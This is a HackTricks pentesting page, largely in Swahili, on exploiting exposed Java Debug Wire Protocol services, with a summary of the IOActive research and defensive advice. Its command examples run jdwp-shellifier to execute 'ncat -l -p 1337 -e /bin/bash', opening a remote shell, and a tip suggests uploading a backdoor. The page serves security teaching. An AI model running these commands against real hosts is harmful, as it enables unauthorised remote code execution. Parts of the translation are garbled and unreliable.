 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Pata mtazamo wa hacker kuhusu programu zako za wavuti, mtandao, na wingu

**Pata na ripoti udhaifu muhimu, unaoweza kutumiwa kwa faida halisi ya biashara.** Tumia zana zetu zaidi ya 20 za kawaida kupanga uso wa shambulio, pata masuala ya usalama yanayokuruhusu kupandisha mamlaka, na tumia matumizi ya moja kwa moja kukusanya ushahidi muhimu, ukigeuza kazi yako ngumu kuwa ripoti za kushawishi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Kutumia

Matumizi ya JDWP yanategemea **ukosefu wa uthibitisho na usimbaji wa protokali**. Kwa kawaida hupatikana kwenye **bandari 8000**, lakini bandari nyingine zinaweza kuwa. Muunganisho wa awali unafanywa kwa kutuma "JDWP-Handshake" kwenye bandari lengwa. Ikiwa huduma ya JDWP inafanya kazi, inajibu kwa kutumia string ile ile, ikithibitisha uwepo wake. Hii handshake inafanya kazi kama njia ya kutambua huduma za JDWP kwenye mtandao.

Kwa upande wa utambuzi wa mchakato, kutafuta string "jdwk" katika michakato ya Java kunaweza kuashiria kikao cha JDWP kinachofanya kazi.

Zana inayotumika ni [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). Unaweza kuitumia na vigezo tofauti:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

## More details

**Hii ni muhtasari wa [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)**. Angalia kwa maelezo zaidi.

1. **JDWP Overview**:
- Ni itifaki ya mtandao ya binary inayotumia pakiti, hasa synchronous.
- Haina uthibitisho na usimbaji, hivyo inakuwa hatarini inapokuwa wazi kwa mitandao ya adui.

2. **JDWP Handshake**:
- Mchakato rahisi wa handshake unatumika kuanzisha mawasiliano. Mstari wa ASCII wenye herufi 14 “JDWP-Handshake” unabadilishana kati ya Debugger (mteja) na Debuggee (server).

3. **JDWP Communication**:
- Jumbe zina muundo rahisi zikiwa na maeneo kama Urefu, Id, Bendera, na CommandSet.
- Thamani za CommandSet zinaanzia 0x40 hadi 0x80, zik representing hatua na matukio tofauti.

4. **Exploitation**:
- JDWP inaruhusu kupakia na kuita madarasa na bytecode zisizo na mipaka, hivyo kuleta hatari za usalama.
- Makala inaelezea mchakato wa unyakuzi katika hatua tano, ikihusisha kupata marejeleo ya Java Runtime, kuweka breakpoints, na kuita mbinu.

5. **Real-Life Exploitation**:
- Licha ya uwezekano wa ulinzi wa firewall, huduma za JDWP zinaweza kupatikana na kuathiriwa katika hali halisi, kama inavyoonyeshwa na utafutaji kwenye majukwaa kama ShodanHQ na GitHub.
- Skripti ya unyakuzi ilijaribiwa dhidi ya toleo mbalimbali za JDK na ni huru ya jukwaa, ikitoa Utekelezaji wa Msimbo wa K remote (RCE) wa kuaminika.

6. **Security Implications**:
- Uwepo wa huduma za JDWP zilizo wazi mtandaoni unaonyesha umuhimu wa ukaguzi wa usalama wa mara kwa mara, kuzima kazi za debug katika uzalishaji, na usanidi sahihi wa firewall.

### **References:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Get a hacker's perspective on your web apps, network, and cloud

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
